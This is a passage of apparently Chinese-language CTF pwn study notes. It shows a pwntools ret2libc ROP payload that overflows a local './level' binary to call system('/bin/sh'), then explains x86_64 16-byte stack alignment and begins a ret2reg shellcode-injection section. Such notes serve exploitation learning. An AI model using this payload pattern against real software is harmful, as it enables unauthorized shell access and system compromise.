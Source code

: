```python

# io = gdb.debug("./level","break main")

# payload = flat(cyclic(132),pop_rdi_ret,addr_str_bin_sh,addr_system,pop_rdi_ret,0,)

payload = b'a' * 136 + p64(ret_addr) +  p64(pop_rdi_ret) + p64(addr_str_bin_sh) + p64(addr_system) + p64(pop_rdi_ret) + p64(0) + p64(addr_exit)

# payload_error = b'a' * 136 +  p64(pop_rdi_ret) + p64(addr_str_bin_sh) + p64(addr_system) + p64(pop_rdi_ret) + p64(0) + p64(addr_exit)

io.sendline(payload)
# io.sendline(payload)

io.interactive()
```



#### 栈对齐

> 栈的字节对齐，实际是指栈顶指针必须须是16字节的整数倍。我们都知道栈对齐帮助在尽可能少的内存访问周期内读取数据，不对齐堆栈指针可能导致严重的性能下降。

* 即使数据没有对齐，我们的程序也是可以执行的，只是效率有点低而已，但是某些型号的Intel和AMD处理器对于有些实现多媒体操作的SSE指令，如果数据没有对齐的话，就无法正确执行。这些指令对16字节内存进行操作，在SSE单元和内存之间传送数据的指令要求内存地址必须是16的倍数。
* 因此，任何针对x86_64处理器的编译器和运行时系统都必须保证分配用来保存可能会被SSE寄存器读或写的数据结构的内存，都必须是16字节对齐的，这就形成了一种标准：
* 任何内存分配函数（alloca, malloc, calloc或realloc）生成的块起始地址都必须是16的倍数。
* 大多数函数的栈帧的边界都必须是16直接的倍数。

如上，在运行时栈中，不仅传递的参数和局部变量要满足字节对齐，我们的栈指针（%rsp）也必须是16的倍数。

```assembly
movups
mov //移动指令
u //不必16字节对齐
ps //（packed single-precision floating-point）表示打包的单精度浮点数

movaps
mov //移动指令
u //必需16字节对齐
ps //（packed single-precision floating-point）表示打包的单精度浮点数
```





## ret2reg

> ### 原理
>
> 1. 查看溢出函返回时哪个寄存值指向溢出缓冲区空间
> 2. 然后反编译二进制，查找 call reg 或者 jmp reg 指令，将 EIP 设置为该指令地址
> 3. reg 所指向的空间上注入 Shellcode (需要确保该空间是可以执行的，但通常都是栈上的)

